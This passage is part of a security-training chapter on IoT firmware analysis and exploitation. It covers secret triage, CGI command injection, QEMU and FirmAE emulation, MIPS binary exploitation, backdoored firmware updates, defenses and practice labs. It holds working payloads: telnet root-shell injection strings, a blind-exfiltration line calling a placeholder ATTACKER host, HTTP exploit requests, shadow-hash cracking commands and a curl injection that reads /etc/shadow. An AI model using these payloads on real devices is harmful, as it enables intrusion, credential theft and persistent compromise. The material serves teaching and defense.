find . -name '*.cgi' -o -name '*.php' -o -name '*.lua' -o -name '*.asp'

# 5. Startup scripts (what runs at boot, as root)
cat etc/init.d/* etc/rc.local etc/inittab 2>/dev/null

# 6. Version strings -> known CVEs (SBOM by grep)
find . -name 'busybox' -exec ./busybox 2>/dev/null \; | head -1
strings lib/libssl.so* | grep -i 'openssl'   # e.g. "OpenSSL 1.0.1e" -> Heartbleed era
grep -rI 'version' etc/ | head
```

**Cracking `/etc/shadow`.** If shadow contains a hash, throw it at John or Hashcat — embedded devices love weak, reused, or MD5crypt passwords:

```bash
# shadow line:  admin:$1$xyz$abcd...:0:0:99999:7:::   ($1$ = MD5crypt)
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow
# or hashcat mode 500 for md5crypt:
hashcat -m 500 shadow_hash rockyou.txt
```

**Grepping for hardcoded secrets** is the single most productive activity in firmware analysis. Real, repeatedly-found examples: a root password hardcoded in an init script; a private TLS key embedded in the firmware and *identical across every device the vendor ships* (so anyone can decrypt or impersonate any unit); an AWS/API token in a cloud-connector binary; a hidden "support" or "factory" account. Each of these has been a real CVE many times over.

**Version-to-CVE mapping** turns strings into exploits. Every third-party component — BusyBox, OpenSSL, Dropbear, dnsmasq, lighttpd, the Linux kernel itself — has a version string, and old embedded builds are usually years behind. Extract versions and check them against public CVE databases. A camera shipping OpenSSL 1.0.1 is vulnerable to Heartbleed; a router with an old dnsmasq is exposed to the DNS cache-poisoning and heap bugs; an ancient BusyBox may have known `wget`/`tftp` issues. This is the "SBOM by grep" workflow, and it's how a large share of IoT advisories are actually discovered.

**Bug-bounty angle:** a single `grep` hit — a hardcoded credential or a private key shared across a product line — is often a submittable critical on its own, no exploitation required. Document the file path, the secret (redacted in the report), and the impact (universal auth bypass / traffic decryption).

---

## Part 8: Attacking the Web/CGI Layer — Command Injection & Backdoors

The most common *remotely exploitable* IoT bug class is **command injection in the web interface**. Embedded web apps are typically tiny CGI programs (compiled C, or shell/Lua scripts) that build shell command lines out of user input and pass them to `system()` — with no sanitisation. This is the bread and butter of router and camera exploitation.

**Why it's so prevalent:** an embedded developer needs to, say, ping a host from the diagnostics page. The lazy implementation is `sprintf(cmd, "ping -c 4 %s", user_input); system(cmd);`. If `user_input` is `8.8.8.8; telnetd -l /bin/sh -p 9999`, the device starts a root telnet backdoor. Because the web server runs as root on most devices, injection = instant root RCE.

**Finding it in the extracted firmware (static):** decompile or read the CGI binaries and grep for the dangerous sinks fed by request parameters.

```bash
# Dangerous sinks in embedded C: system, popen, exec*, do_system, ___system
# Find CGI binaries and search their strings for these:
find www -name '*.cgi'
strings www/cgi-bin/diagnostic.cgi | grep -iE 'system|popen|exec|ping|nslookup|%s'
# In Ghidra: locate system() imports, trace back to the request parameter
```

Once you find a page that shells out with attacker-controlled input, you build the payload with standard shell metacharacters. **Teach the metachar toolkit:**

| Technique | Payload fragment | Effect |
|---|---|---|
| Command separator | `; cmd` | Run cmd after the intended one |
| Background/chain | `& cmd` , `&& cmd` | Chain conditionally/async |
| Pipe | `\| cmd` | Feed output into cmd |
| Command substitution | `` `cmd` `` , `$(cmd)` | Inline execution |
| Newline | `%0a cmd` | Break the line (URL-encoded) |
| Blind exfil | `; wget http://ATTACKER/$(id)` | Out-of-band data |

**A worked HTTP exploitation request** against a hypothetical vulnerable ping diagnostic:

```http
POST /cgi-bin/diagnostic.cgi HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

action=ping&target=8.8.8.8%3B+telnetd+-l+/bin/sh+-p+9999+%26&submit=Go
```

Decoded, `target` = `8.8.8.8; telnetd -l /bin/sh -p 9999 &` — the device pings 8.8.8.8, then launches a root telnet daemon on port 9999 in the background. Connect and you have a root shell:

```bash
telnet 192.168.1.1 9999
# / #  (root)
```

**Backdoor accounts and magic parameters** are the other classic. Vendors leave undocumented endpoints (`/cgi-bin/supervisor/`, `?debug=1`, a hardcoded `admin/admin` or vendor-specific default), or authentication that can be bypassed by hitting the underlying page directly. Real device lines have shipped with hardcoded root passwords like `xc3511`, telnet backdoors keyed off the device serial, and "customer support" accounts with fixed credentials — several of these fueled the **Mirai** botnet, which conquered hundreds of thousands of cameras and DVRs using a short list of default telnet credentials.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant W as Device Web/CGI (root)
    participant S as Shell (system())
    A->>W: POST target=8.8.8.8; telnetd -l /bin/sh -p 9999 &
    W->>S: system("ping -c4 8.8.8.8; telnetd -l /bin/sh -p 9999 &")
    S-->>W: ping output + telnetd spawned (root)
    W-->>A: HTTP 200 (ping results)
    A->>W: telnet 192.168.1.1:9999
    W-->>A: root shell
```

**Other high-frequency web bugs on IoT:** authentication bypass (accessing setup pages without login), **path traversal / arbitrary file read** (`GET /../../etc/passwd` via a static-file handler), **buffer overflows in the HTTP parser** (Part 10), CSRF changing DNS/admin settings, and **SSRF** in cloud-bridge features. The web-app skills from the AppSec notebooks all transfer; the twist is that here a bug typically means *root on the device*, not a low-priv web shell.

**Blue-team angle:** the fixes are the fixes you already know — never pass user input to `system()`, use `execve` with argument arrays, allowlist input, drop the web server's privileges, remove debug/backdoor endpoints before shipping, and require authentication on every state-changing endpoint.

---

## Part 9: Emulation — Running the Firmware Without the Hardware

You often want to *run* the firmware — to poke the web interface live, fuzz it, or debug a crash — without owning the physical device (or to run hundreds of models at scale). **Emulation** with **QEMU** makes this possible, and it comes in two flavours.

**QEMU from scratch:** QEMU is a full-system and user-mode CPU emulator. It can run a single foreign-architecture binary (**user-mode**) or a whole foreign machine including kernel and peripherals (**system-mode**). Because embedded firmware is MIPS/ARM, QEMU is what lets your x86 laptop execute it.

```bash
sudo apt install -y qemu-user qemu-user-static qemu-system-mips qemu-system-arm binfmt-support
```

**User-mode emulation** runs one binary from the extracted rootfs. This is perfect for exercising a single CGI or daemon:

```bash
# Copy the matching qemu static into the rootfs so it can chroot-run
cp $(which qemu-mips-static) extracted/rootfs/
sudo chroot extracted/rootfs ./qemu-mips-static ./bin/busybox     # run a MIPS binary on x86
# Run the web server binary directly:
sudo chroot extracted/rootfs ./qemu-mipsel-static ./usr/bin/httpd -p 8080
# Now browse to http://localhost:8080  — the real firmware web app, on your laptop
```

The key detail is **endianness and arch matching**: `qemu-mips` (big-endian) vs `qemu-mipsel` (little-endian) vs `qemu-arm`. Get it wrong and the binary immediately faults; `file ./bin/busybox` tells you which (`MSB` = big-endian -> `qemu-mips`; `LSB` = little-endian -> `qemu-mipsel`).

**System-mode emulation** boots the whole firmware — kernel, init, all daemons — in a virtual machine with virtual network interfaces, so the device behaves as if physically running. This is much more faithful (and much fiddlier), because you must supply a compatible kernel, device tree, and NVRAM, and fake the hardware the firmware expects (specific flash layout, GPIO, watchdog). Doing this by hand is painful — which is why frameworks exist.

**Firmadyne** and its more robust successor **FirmAE** automate full-system emulation. FirmAE in particular applies "arbitration" heuristics — faking NVRAM values, patching out watchdogs, stubbing missing hardware — to get a much higher percentage of real firmware images to boot and serve their web interface.

```bash
git clone --recursive https://github.com/pr0v3rbs/FirmAE.git
cd FirmAE && sudo ./download.sh && sudo ./install.sh
# Run the full pipeline on an image: check -> emulate -> serve
sudo ./run.sh -c mybrand firmware.bin      # -c : check if emulatable
sudo ./run.sh -r mybrand firmware.bin      # -r : run/emulate, brings up the web UI
# FirmAE prints the emulated device's IP, e.g. 192.168.0.100
```

Once FirmAE reports an IP, you interact with the emulated device exactly like the real one — browse its web UI, run your command-injection payloads, point a scanner at it, or attach a debugger. This is the backbone of large-scale automated firmware bug hunting: emulate thousands of images, fire a battery of checks at each, triage the hits.



**The NVRAM problem, specifically.** The most common reason a router's web server crashes on boot under emulation is **NVRAM** — a small key/value store the firmware reads at startup for its configuration (WAN mode, admin password, LAN IP). On a real device it's backed by a flash partition and accessed through a vendor library like `libnvram`; under emulation that partition and hardware don't exist, so `nvram_get("lan_ipaddr")` returns NULL and the daemon segfaults dereferencing it. Firmadyne and FirmAE solve this with a **fake NVRAM shim** — an `LD_PRELOAD` library that intercepts `nvram_get`/`nvram_set` and serves plausible values from a seed file, learning the required keys from the firmware's own default-config files. When you emulate by hand and a service dies immediately, an `strace` showing a failed NVRAM read is the usual culprit, and preloading a fake `libnvram.so` is the fix.

**Limits of emulation:** hardware-specific features (crypto accelerators, radios, GPIO-driven logic, NVRAM tied to a real chip) often don't emulate, so some code paths won't run. Emulation is fantastic for the network-facing software (web/CGI, services) — which is exactly where most remote bugs live — but a real device on the bench is still the ground truth for anything hardware-coupled.

**CTF angle:** many firmware CTF challenges hand you an image and expect exactly this — `binwalk -Me`, find the vulnerable CGI, emulate with qemu-user, exploit it locally for the flag. **Red-team angle:** emulation lets you develop and reliably test an exploit off-target, then fire the finished, deterministic exploit at the real in-scope device once, minimising noise and crashes.

---

## Part 10: Binary Exploitation on Embedded Targets

When the bug isn't a shell metacharacter but a **memory-corruption** flaw — a stack overflow in the HTTP parser, an unchecked `strcpy` in a service — you're doing classic binary exploitation, made *easier* by the embedded environment's missing mitigations. This section assumes the binexp fundamentals from the vuln-research notebook and focuses on the IoT-specific angles.

**Why embedded is friendlier to the attacker:**

- **No ASLR** on many devices -> static addresses; your gadget and stack addresses don't move.
- **No NX/DEP** on plenty of MIPS/ARM builds -> you can execute shellcode straight off the stack.
- **No stack canaries** -> a linear overflow smashes the return address unimpeded.
- **No PIE** -> the binary loads at a fixed base, so ROP gadget addresses are constant.
- **MMU quirks:** on MIPS, caches complicate shellcode (you often must flush the instruction cache), which shapes technique choice toward ROP/ret2libc.

**The workflow:** find the vulnerable binary (from firmware triage), load it in a disassembler, identify the overflow and the controllable input, build the exploit, and test it under emulation with a debugger before firing at hardware.

**Ghidra from scratch (for embedded):** Ghidra is the NSA's free reverse-engineering suite with an excellent decompiler and broad architecture support (MIPS, ARM, PowerPC, RISC-V, SuperH) — critical for IoT where IDA licences and architecture coverage cost money. Import the binary, and when Ghidra asks, **set the correct language/processor** (e.g. `MIPS:BE:32:default` for big-endian 32-bit MIPS). Auto-analyze, then read the decompiled C to find `strcpy`/`memcpy`/`sprintf` into fixed buffers fed by network input.

```bash
# Fingerprint first so you pick the right Ghidra language spec
file usr/sbin/httpd
# ELF 32-bit MSB executable, MIPS, MIPS32 rel2, dynamically linked ...
#   -> MSB = big-endian -> Ghidra language MIPS:BE:32
```

**Debugging under emulation with gdb-multiarch:**

```bash
# Run the target binary under qemu-user with a gdb stub on port 1234
qemu-mips -g 1234 ./usr/sbin/httpd
# In another terminal, attach the multi-architecture gdb:
gdb-multiarch ./usr/sbin/httpd
(gdb) set architecture mips
(gdb) target remote localhost:1234
(gdb) b *0x00401234          # break at the vulnerable function
(gdb) c
# Send your overflow payload from a third terminal, watch registers smash
```

**Cross-compiling shellcode/exploits** requires the right toolchain — `mips-linux-gnu-gcc`, `arm-linux-gnueabi-gcc` — because you're building code for the target CPU, not x86:

```bash
sudo apt install -y gcc-mips-linux-gnu gcc-arm-linux-gnueabi
mips-linux-gnu-gcc -static -o exploit exploit.c    # build a MIPS binary
```

**pwntools** speaks all these architectures. `context.arch = 'mips'`, `context.endian = 'big'`, and its `shellcraft`, `ROP`, and `cyclic` helpers work cross-architecture, so you script the exploit exactly as you would for an x86 CTF pwn — just with the target's arch set.

```python
from pwn import *
context.arch = 'mips'
context.endian = 'big'
# cyclic pattern to find the offset to the return address:
payload = cyclic(200)
# after the crash, EPC/return holds a 4-byte pattern chunk -> cyclic_find() gives the offset
# then build: junk + ret_addr(gadget) + rop-chain / ret2shellcode
```

Real embedded RCEs in the wild (routers, cameras, VPN gateways) are frequently **unauthenticated stack overflows in the HTTP daemon or a UPnP/SOAP service**, reachable pre-login, on architectures with no mitigations — i.e. the easiest kind of memory-corruption exploit there is. This is why "old-school" binary exploitation is still a live, lucrative skill in IoT long after desktops made it hard.

**CTF angle:** pwn.college, the DEF CON/hardware CTFs, and many HackTheBox "hard" boxes include MIPS/ARM pwn built exactly on this pipeline. **Blue-team angle:** compile with `-fstack-protector-strong`, enable ASLR (`kernel.randomize_va_space=2`) and NX, build PIE binaries, and drop service privileges — the same hardening desktops adopted two decades ago.

**The bare-metal / RTOS case is different and worth its own note.** When there's *no* Linux and *no* filesystem — just one flat blob for a Cortex-M or ESP32 — binwalk finds nothing useful and there's no rootfs to triage. You reverse the raw image directly, and the single hardest step is **loading it at the right base address** so that pointers and function calls resolve. For an ARM Cortex-M, the image usually starts with a **vector table**: the first 32-bit word is the initial stack pointer, the second is the reset-handler address, and the rest are exception/interrupt vectors. Those addresses tell you the load base (typically `0x08000000` for internal flash on STM32, or `0x00000000`).

```bash
# Peek the first two vectors of a Cortex-M image
xxd -e -l 8 fw.bin
# 00000000: 20005000 08000135   -> SP=0x20005000 (RAM), reset=0x08000135 (flash+1, thumb)
# reset handler at ~0x08000134 -> load base is 0x08000000
```

In Ghidra you then create a memory block at the correct base, mark the vector table, and let auto-analysis follow the reset handler. **Finding functionality without symbols** relies on strings and peripheral addresses: search for the memory-mapped register addresses of the SoC's UART, SPI, GPIO, and crypto blocks (from its datasheet) to locate the driver code, and use string cross-references to find command handlers. SVD-Loader (a Ghidra plugin that ingests a CMSIS SVD file) auto-annotates every peripheral register by name, turning an opaque `*(0x40011004) = 0x25` into a readable `USART1->DR = 0x25`. RTOS images (FreeRTOS, Zephyr) additionally have recognisable scheduler structures and task lists you can pattern-match to enumerate the firmware's tasks. There's no `system()` here, so the bug classes shift to protocol parsers, over-the-air command handlers, and the classic unchecked-`memcpy` in a radio or USB stack.

---

## Part 11: Insecure Update Mechanisms & Persistence

An underappreciated but devastating IoT bug class is the **update mechanism itself**. If a device accepts firmware that isn't cryptographically verified, an attacker can flash a permanently backdoored image — the ultimate persistence, surviving reboots and factory resets, invisible to network monitoring.

**The three questions to ask of any update system:**

1. **Is the download authenticated and encrypted?** If firmware is fetched over plain HTTP with no signature check, a network attacker can serve a malicious image. If it's HTTPS but the device doesn't validate certificates, same result via MITM.
2. **Is the image signed, and is the signature actually verified?** Many devices *include* a signature but never check it, or check it with a key you can extract, or accept an image whose signature is simply absent. A proper implementation verifies an RSA/ECDSA signature against a public key fused into the hardware (secure boot).
3. **Can you build a valid modified image?** If you can unpack, modify the rootfs (add a backdoor, patch the auth check), and re-pack with the vendor's own tools or a recomputed checksum the device accepts, you have a persistent implant.



**Building a backdoored image (lab-scoped):** unpack with binwalk/unblob, modify the extracted rootfs (append a line to an init script that starts a reverse shell, add a root account, patch a `strcmp` in the login binary), then re-pack. Re-packing SquashFS uses `mksquashfs` with the *same* compression and block size the original used (read them off the binwalk output), and you fix up any header/checksum/CRC the device validates:

```bash
# Repack the modified rootfs with matching parameters
mksquashfs rootfs_modified rootfs_new.squashfs -comp xz -b 131072 -noappend
# Splice it back at the original offset, fix the vendor CRC/trailer as needed,
# then flash via the update UI, tftp recovery, or a flashrom write.
```

Vendors defend this with **secure boot**: an immutable boot ROM verifies the bootloader's signature, which verifies the kernel's, which verifies the rootfs's — a chain rooted in a key fused into the SoC so it can't be replaced. Breaking secure boot is a research discipline of its own (fault injection/glitching, ROM bugs, TOCTOU in the verifier). Where secure boot is absent or flawed, unsigned-firmware flashing remains one of the most common and highest-impact IoT findings.

**Red-team/supply-chain angle:** a backdoored firmware pushed through a compromised update server, or flashed on a device in the supply chain, is a nation-state-grade persistence technique — which is precisely why signed updates and SBOM transparency are now regulatory expectations (e.g. the EU Cyber Resilience Act, US IoT security baselines). **Blue-team angle:** require signed, encrypted updates verified against a hardware root of trust; monitor for unexpected firmware versions and checksum mismatches; and, where possible, use measured boot / remote attestation to detect tampered images.

---

## Part 12: A Full Worked Lab — From `.bin` to Root on an Emulated Router

This lab ties the chapter together on a safe, legal target: a firmware image you emulate on your own machine (no hardware, no third-party network). Use a vendor image you're entitled to analyze, or a deliberately-vulnerable training image (see Part 17). The workflow is identical to a real engagement.

**Step 1 — Identify and map the image.**

```bash
file firmware.bin
# firmware.bin: data
binwalk firmware.bin
# ... uImage header (MIPS, LZMA) at 0x0
# ... Squashfs filesystem, little endian, version 4.0, xz, at 0x160000
```

We learn: MIPS little-endian (from later `file` on a binary), SquashFS rootfs at 0x160000.

**Step 2 — Extract the filesystem.**

```bash
binwalk -Me firmware.bin
cd _firmware.bin.extracted/squashfs-root
ls
# bin  dev  etc  lib  mnt  proc  sbin  sys  tmp  usr  var  www
file bin/busybox
# ELF 32-bit LSB executable, MIPS, ... -> little-endian -> qemu-mipsel
```

**Step 3 — Triage for secrets and the web app.**

```bash
cat etc/passwd
# root:x:0:0:root:/root:/bin/sh
# admin:x:0:0:admin:/:/bin/sh          <- second UID-0 account (backdoor)
cat etc/shadow
# root:$1$Sw2KtL$...:0:0:99999:7:::
grep -rInE 'password|secret|api_key' etc/ www/ | head
# www/cgi-bin/config.cgi: char *default_pass = "admin";
ls www/cgi-bin/
# login.cgi  diagnostic.cgi  config.cgi  upgrade.cgi
```

Crack the shadow hash:

```bash
echo 'root:$1$Sw2KtL$...' > sh.txt
john --format=md5crypt --wordlist=rockyou.txt sh.txt
# admin            (root)     <- weak password recovered
```

**Step 4 — Find the command injection statically.**

```bash
strings www/cgi-bin/diagnostic.cgi | grep -iE 'system|ping|%s'
# ping -c 4 %s
# system
# Ghidra confirms: sprintf(cmd,"ping -c 4 %s",getenv("QUERY_STRING param 'target'")); system(cmd);
```

**Step 5 — Emulate the device with FirmAE.**

```bash
cd ~/FirmAE
sudo ./run.sh -r demorouter ~/firmware.bin
# [*] extracting ... [*] inferring network ... [*] running ...
# [+] Emulated device IP: 192.168.0.100
```

**Step 6 — Exploit the injection against the emulated device.**

```bash
curl 'http://192.168.0.100/cgi-bin/diagnostic.cgi' \
  --data 'target=127.0.0.1%3B+id%3B+cat+/etc/shadow&submit=Go'
# ping output ...
# uid=0(root) gid=0(root)
# root:$1$Sw2KtL$...:0:0:99999:7:::
```

Root command execution confirmed — `id` returns `uid=0(root)`. From here you'd drop a persistent telnet/reverse shell exactly as in Part 8, or (in a report) stop at proven unauthenticated root RCE.

**Step 7 — (Optional) memory-corruption path.** If instead the target were the HTTP daemon, you'd run it under `qemu-mipsel -g 1234 ./usr/sbin/httpd`, attach `gdb-multiarch`, send a `cyclic()` pattern to overflow the parser, find the offset, and build a ret2shellcode/ROP exploit with `context.arch='mips'` — the Part 10 pipeline.

**What you just demonstrated end-to-end:** extract -> triage -> static bug discovery -> emulate -> dynamic exploitation -> root — with no physical hardware, entirely on your own machine. That is the complete IoT firmware attack lifecycle in miniature.

---

## Part 13: Detection & Defense Angle

Everything offensive above inverts cleanly into a defensive program. This is the consolidated blue-team section; note how each attack in this chapter has a specific, practical mitigation.

**Secure the boot and update chain (kills Parts 4, 11).**

- Implement **secure boot** with a hardware root of trust: boot ROM -> bootloader -> kernel -> rootfs, each stage verifying the next against a key fused into the SoC.
- **Sign and encrypt firmware updates**; verify signatures on-device before flashing; deliver over TLS with certificate validation (or pinning).
- Disable or password-protect **U-Boot** interruption; set `bootdelay=0`; lock the environment.
- **Disable UART/JTAG in production**, or gate them behind authentication and fuse-disable debug access on the shipping SKU.

**Eliminate the software bug classes (kills Parts 7, 8, 10).**

- **No hardcoded secrets, ever** — no root passwords, no shared TLS keys across the fleet, no baked-in API tokens. Provision per-device credentials at manufacture.
- **Never pass user input to `system()`/`popen()`**; use `execve` with argument vectors and strict allowlists. This single rule removes the dominant IoT RCE class.
- Compile with **mitigations on**: stack canaries (`-fstack-protector-strong`), NX, ASLR (`kernel.randomize_va_space=2`), PIE, RELRO. They cost almost nothing on modern SoCs.
- Keep third-party components current; maintain and publish an **SBOM** so version-to-CVE exposure is tracked, not discovered by attackers.

**Network and monitoring controls (limits blast radius).**

- **Segment IoT/OT devices** onto isolated VLANs; default-deny egress; a camera should never reach arbitrary internet hosts.
- Monitor for the tells this chapter generates: unexpected **telnet/SSH daemons** appearing, outbound connections from devices that should be silent, firmware **version/checksum mismatches**, and management-interface access from unusual sources.
- Deploy device-behaviour anomaly detection; many IoT compromises (Mirai-class) are loud on the network even when silent on the host.



**Threat-intel note:** the largest IoT incidents — Mirai and its many variants — succeeded almost entirely on **default/hardcoded telnet credentials**, not exotic exploits. The highest-ROI defense for a fleet is therefore mundane: no default creds, no exposed telnet, forced password change, and segmentation. Detection engineers should build alerts around new listening services and outbound scanning behaviour from device subnets.

---

## Part 14: Final Revision / Summary

- **Firmware** is the entire software stack in a device's flash. Classify it first: **Linux embedded** (routers, cameras — your best target, full rootfs) vs **RTOS** vs **bare-metal monolith**. This decides every tool choice.
- **Architecture matters constantly**: embedded means **MIPS/ARM/RISC-V**, usually not x86, often big-*or*-little-endian. `file <binary>` and the `MSB`/`LSB` marker drive your emulator (`qemu-mips` vs `qemu-mipsel`) and disassembler language spec.
- **Get the firmware via the cheapest working path**: vendor download -> OTA capture -> UART dump -> JTAG -> in-circuit SPI (`flashrom`+CH341A) -> chip-off. Most published bugs come from downloads and OTA capture, no hardware needed.
- **UART is the fastest total win**: 3.3 V USB-TTL on TX/RX/GND, `screen /dev/ttyUSB0 115200`, watch the boot log, and you frequently land in a **passwordless root shell** — or interrupt U-Boot and set `init=/bin/sh`.
- **Unpack with binwalk, then unblob** when binwalk struggles. Carve the **SquashFS** rootfs (`unsquashfs`/`sasquatch`), watch **entropy** to spot encrypted images.
- **Triage the rootfs** with firmwalker + targeted greps: `/etc/shadow`, hardcoded creds, **shared private keys**, the **web/CGI** directory, init scripts, and version strings -> **CVEs**.
- **The dominant remote bug is CGI command injection** — user input reaching `system()` in a root web server. Shell metacharacters (`;`, `|`, `` ` ``, `$()`) turn a diagnostics page into root RCE and telnet backdoors (the Mirai pattern).
- **Emulate without hardware**: `qemu-user` for a single binary, **FirmAE/Firmadyne** for the whole device, to test injections, fuzz, and debug at scale.
- **Memory-corruption is easier here**: no ASLR/NX/canaries/PIE on many devices, so unauthenticated stack overflows in the HTTP/UPnP daemon are straightforward. Reverse in **Ghidra** (set the arch!), debug under **gdb-multiarch** + qemu, script with **pwntools** (`context.arch='mips'`), cross-compile with `mips-linux-gnu-gcc`.
- **Insecure updates = persistence**: unsigned/unverified firmware lets you flash a permanent backdoor surviving factory reset. **Secure boot + signed updates** is the fix.
- **Defense inverts the attack**: disable/auth debug ports, no hardcoded secrets, `execve`+allowlists, mitigations on, signed+encrypted updates with a hardware root of trust, and **network segmentation** with egress monitoring.

---

## Part 15: Cheat Sheet / Quick Reference

**Fingerprint & extract**

```bash
file firmware.bin                     # what is it?
binwalk firmware.bin                  # map signatures/offsets
binwalk -Me firmware.bin              # recursive extract
unblob firmware.bin -e out/           # accurate modern extractor
dd if=fw.bin of=rootfs.sqsh bs=1 skip=<offset>   # manual carve
unsquashfs -d rootfs rootfs.sqsh      # unpack SquashFS
sasquatch rootfs.sqsh                 # vendor-mangled SquashFS
jefferson / ubireader / cramfsck      # JFFS2 / UBIFS / CramFS
binwalk -E firmware.bin               # entropy -> spot encryption
file <binary>                         # MSB=big-endian->qemu-mips, LSB->qemu-mipsel
```

**Triage the rootfs**

```bash
./firmwalker.sh rootfs report.txt
cat etc/passwd etc/shadow
grep -rInE 'password|secret|api[_-]?key|token' etc/ www/
find . -name '*.pem' -o -name '*.key' -o -name 'id_rsa*'
find . -name '*.cgi' -o -name '*.php' -o -name '*.lua'
strings www/cgi-bin/*.cgi | grep -iE 'system|popen|exec|%s'
john --format=md5crypt --wordlist=rockyou.txt shadow    # hashcat -m 500
```

**Hardware / dump**

```bash
screen /dev/ttyUSB0 115200            # UART console (exit: Ctrl-A k)
picocom -b 115200 /dev/ttyUSB0
# U-Boot: printenv ; setenv bootargs '... init=/bin/sh' ; boot
# Linux:  cat /proc/mtd ; dd if=/dev/mtd3 of=/tmp/rootfs.bin
flashrom -p ch341a_spi                # detect SPI chip
flashrom -p ch341a_spi -r dump.bin    # read flash (do 2x + sha256sum)
```

**Emulate**

```bash
cp $(which qemu-mipsel-static) rootfs/
sudo chroot rootfs ./qemu-mipsel-static ./usr/bin/httpd -p 8080
sudo ./run.sh -r target firmware.bin  # FirmAE full-system emulation
```

**Exploit dev**

```bash
qemu-mipsel -g 1234 ./usr/sbin/httpd  # gdb stub
gdb-multiarch ./usr/sbin/httpd        # set arch mips; target remote :1234
mips-linux-gnu-gcc -static -o exp exp.c
python3 -c 'from pwn import *; context.arch="mips"; print(cyclic(200))'
```

**Command-injection payload metacharacters:** `; cmd` · `& cmd` · `| cmd` · `` `cmd` `` · `$(cmd)` · `%0a cmd` — classic root telnet backdoor: `8.8.8.8; telnetd -l /bin/sh -p 9999 &`.

---

## Part 16: Common Pitfalls

- **Wrong endianness.** Running a big-endian MIPS binary under `qemu-mipsel` (or vice-versa) faults instantly. Always `file` the binary and match `qemu-mips` (MSB) vs `qemu-mipsel` (LSB); pick the matching Ghidra language spec too.
- **Feeding 5 V into a 3.3 V UART/SPI pin.** Kills the SoC or flash. Use a **3.3 V** adapter; never connect VCC unless required; double-check with a multimeter first.
- **Trusting binwalk blindly.** It carves heuristically and sometimes wrong. Cross-check with **unblob**, verify offsets, and re-read the flash twice (`sha256sum`) to rule out a flaky SPI read.
- **Assuming an image is encrypted too early.** A flat, high entropy plot with *no* signatures suggests encryption — but a single **compressed** blob also reads high-entropy. Confirm by locating (or failing to locate) any structure, and check whether an older firmware version was shipped unencrypted.
- **Contention on in-circuit SPI reads.** The SoC may drive the bus while you read, corrupting the dump. Hold the CPU in reset or lift the flash VCC pin.
- **Bricking on repack.** Re-packing SquashFS with the wrong compression/block size, or not fixing the vendor CRC/trailer, bricks the device. Read the original parameters off binwalk output and match them exactly; keep a known-good dump to restore via `flashrom -w`.
- **Emulation is not hardware.** Hardware-coupled code (radios, crypto engines, GPIO, real NVRAM) may not run under QEMU. Validate hardware-dependent findings on a real bench unit.
- **NAND is not NOR.** Parallel/SPI NAND has spare (OOB) bytes, ECC, and bad-block maps; a naive `dd`/`flashrom` read of NAND is not directly a filesystem. Use NAND-aware tooling.
- **Legal/scope drift.** Analyzing *your own* device is broadly fine; hitting a live vendor cloud API, exploiting someone else's device, or redistributing firmware can be illegal. Keep it on your bench and in-scope.

---

## Part 17: Practice Labs & Resources

Train each specific skill in this chapter on these targets:

- **Damn Vulnerable Router Firmware (DVRF)** — a deliberately vulnerable MIPS firmware image built for exactly this pipeline: extract, emulate with QEMU, and exploit stack overflows and command injection. The canonical first IoT-pwn lab.
- **IoTGoat** (OWASP) — a deliberately insecure firmware (OpenWrt-based) with a checklist of planted vulnerabilities mapped to the OWASP IoT Top 10: hardcoded creds, command injection, insecure update, backdoor accounts. Extract, emulate with FirmAE, and hunt each one.
- **Damn Vulnerable IoT Device (DVID)** — hardware/firmware training targeting embedded bug classes.
- **Azeria Labs ARM assembly & exploitation** — the best free ground-up ARM (and by extension embedded) reverse-engineering and exploit-dev course; do this before Part 10 pwn work.
- **HackTheBox** — the "hardware"/embedded and MIPS/ARM pwn machines (and Fortress/endgame labs with router-style targets) drill emulation-plus-binexp end to end.
- **microcorruption.com** — a browser-based embedded (MSP430) assembly CTF; superb for building the "read the disassembly, find the overflow, defeat the lock" muscle memory that firmware pwn relies on.
- **pwn.college** (ASU) — the reversing and memory-corruption modules cover the cross-architecture exploitation this chapter's Part 10 needs.
- **Real firmware for extraction practice** — download a router/camera image you own from the vendor's support site (or the OpenWrt Table of Hardware for supported models) and run the Part 12 lab on it end to end.
- **Hardware CTFs** — DEF CON Hardware Hacking Village, and hardware categories at events like HITB and Hack-A-Sat — practice UART discovery, baud detection with sigrok/PulseView, and flash dumping on real boards.

Work each target with the full lifecycle: **identify -> extract -> triage -> emulate -> exploit -> (defend)**. Once the loop is automatic on a deliberately-vulnerable image, real vendor firmware becomes just a bigger, messier version of the same seven steps.

This chapter completes the offensive core of the Mobile & IoT notebook; the next chapter moves on to the broader hardware and radio attack surface that surrounds these devices.
